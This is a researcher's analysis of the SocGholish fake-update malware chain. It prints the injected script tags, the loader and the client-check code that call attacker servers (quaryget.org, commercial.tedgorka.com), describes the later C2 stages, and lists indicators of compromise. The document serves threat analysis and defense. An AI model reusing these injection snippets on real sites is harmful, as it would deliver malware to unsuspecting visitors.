








# SocGholish Malware Analysis

*Posted: 2023-05-21* - [Randy McEoin](https://infosec.exchange/@rmceoin)

SocGholish is a malware family that can be found on compromised web sites.
When users land on these sites they may get presented with
a fake update.  Whether or not the fake update is displayed
is dependent on numerous factors.  For example, the site will check your source IP
for anything that might indicate you're not a standard
end user.  Additionally if you have visited the site already
it will have stored a cookie.  If you already have the cookie then
you will not see the fake update.

To help with consistently getting SocGholish to trigger, these were the
steps used besides using a throwaway sandbox.

1. Use a hotspot that you can turn the Wi-Fi on/off .  This
   allows for a fresh IP for each session.
1. Clear all browser data.



When the web site decides that you are to be presented with
the fake update, it will prepend code to the main page with
calls to a TDS (traffic distribution system).

```html
<script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
<script>
var khutmhpx = document.createElement("script");
khutmhpx.src = "https://quaryget.org/Gb7XTy3b";
document.getElementsByTagName("head")[0].appendChild(khutmhpx);
</script>
```

Oddly it injects this same script numerous times.  While several
may be unique hosts, perhaps to get around potential blocks,
it's common to see it reference an identical src.



Each of these duplicate snippets return the same thing, a call
to what I call the application server.

```javascript
;(function(g,b,i,c,w,n){
      w=b.createElement(i);
      n=b.getElementsByTagName(i)[0];
      w.async=1;
      w.src=c;n.parentNode.insertBefore(w,n);
   })(window,document,'script','https://commercial.tedgorka.com/TVlvSV8Lw9t1xSmbAMXdPkQoeRa+73wnj66XOZ/+i2M=');
```

The first call to the application server is for client side
checks.  In general SocGolish only wants to trigger once
for a brand new visitor.  It checks for a few attributes.
Interestingly it appears to still make a web call even when
the environment is deemed not good for the fake update.  Perhaps
this is for analytics?  The analytics calls return empty payloads.

```javascript
(function() {
    // event is sent to a Window when the browser hides the current page in the process of presenting a different page from the session's history
    window.addEventListener('pagehide', function(event) {
        navigator.sendBeacon('https://commercial.tedgorka.com/HhN4irHHbPOQzzUGgTkAHTGrNc/YkYK37JrT3UtrKnPu2IzcSnTjeVfkLCDSc0kODGI7TxdK9IK2kE+FQiKlKqXCwz+gQ6xCWcvRq4W3xVk=');
    }, true);

    if (window.navigator.userAgent.indexOf('Windows') == -1) {
        // ignore non-Windows agents
        fp('https://commercial.tedgorka.com/gI8MJ51fUB12YzlpHNu0RodkHLjfOWy3gQik+Sfd5Pi+rQ6bzEOnNOlVP1+3hgPifQCcNbTXp1/ni2zhpqYEzfsKQ5HCzHn5pmjQUyQyekk=');
        return;
    }
    if (window.localStorage[window.location.hostname]) {
        // previously triggered.  This will be set by the next call if trigger happens.
        fp('https://commercial.tedgorka.com/aajBE2NadaytxwzG6L/5R6lwxk7mxB9g9knxAvBQ5zB4MyZyTY9UVATsyJP4J0jiiNq5LBl0+jj0vZPdaB+wU1PC36GGduhe/JCCmACiJV4=');
        return;
    }
    if (document.cookie.indexOf('wordpress_logged_in_') !== -1 || document.cookie.indexOf('wp-settings-') !== -1) {
        // existing WordPress user or admin
        fp('https://commercial.tedgorka.com/D/xC5QLoHvD989TDIsIC6eJ9ZuP+txjtSHcW6yycDHI0582wP8MvgiHD2HV54y5NuK74FtNUJkbw3tLj2AiaV9VtA1O0ke9bdy2Om/egIBY=');
        return;
    }
    if (typeof window.jQueryLanding !== 'undefined') {
        // finally!  This will move onto the next phase
        fp('https://commercial.tedgorka.com/zMxiKC7qlpKTDFRg3FPlXsntXRHvF1SleHPh6qsn0XuzkstnejuJmBl+mRU37TIB58uwWSnz1vTc5iBaNoE4mphbwiC4sJYLYvPDc8GtnaA=');
        return;
    }
    // set a global variable to help prevent this script from triggering again
    // no doubt this helps with the multiple redundant injections of the main page
    window.jQueryLanding = true;

    fp('https://commercial.tedgorka.com/yeIZr/0cKvyzIp0unnDlx42zRjcuQymgIrZnVOBqZNKwnrUJPgVaLGe8xp47CRcy');

    function fp(jq) {
        var bh = document.createElement('script');
        bh.async = true;
        bh.src = jq;
        var vj = document.getElementsByTagName('script')[0];
        vj.parentNode.insertBefore(bh, vj);
    }
})();
```

If the client checks passed, then the JS/HTML for the fake update will
be fetched and displayed.  This includes saving a value in local storage
to help prevent additional triggering.



In addition to the image assets, a JS is fetched that contains what will
ultimately become the file the user downloads.



When the user clicks on the `Update Chrome` button, it
emulates a download of the file `Update.js` which lands in the
end user's Download folder.

If the end user then clicks on the "downloaded" file, Windows will
use `wscript` to locally run the obfuscated Javascript.

Deobfuscated, the Javascript is a call to the C2 for additional
Javascript that will be evaluated.


The first call to the C2 returns Javascript that collects information
about the Windows environment.


The collected data is sent in the second call to the C2.

The C2 will make a judgement call about the data collected.
If the workstation is of interest, further Javascript will
be returned.  If the C2 is not interested, then an empty payload
will be returned.

In order to get the second call to respond with a payload,
Custom Rules were created in Fiddler.



If the C2 is happy with the data sent in the second call,
it will respond with a simple Javascript that makes the third
call to the C2 but with a new endpoint URL.  Here it is deobfuscated.


The third call to the C2 returns another round of workstation
information gathering.



The fourth call to the C2 sends the larger set of
data that was gathered.

The JS from the third call then moves onto the hearbeat phase.
It will evaluate whatever the C2 returns.





Presumably at this point the victim workstation is listed
in the threat actor's dashboard waiting for servicing?

[SocGholish Video](https://github.com/rmceoin/malware-analysis/assets/1653739/ae57e8fe-b243-4617-9b4b-1d262616e445)

## IOCs

TDS
```
jqueryh[.]org
greenpapers[.]org 
devqeury[.]org
quaryget[.]org
getquery[.]org
dailytickyclock[.]org
```

Application
```
commercial.tedgorka[.]com
```

C2
```
accounting.bridgemastersllc[.]com
reseller.wonderfulworldblog[.]com
```
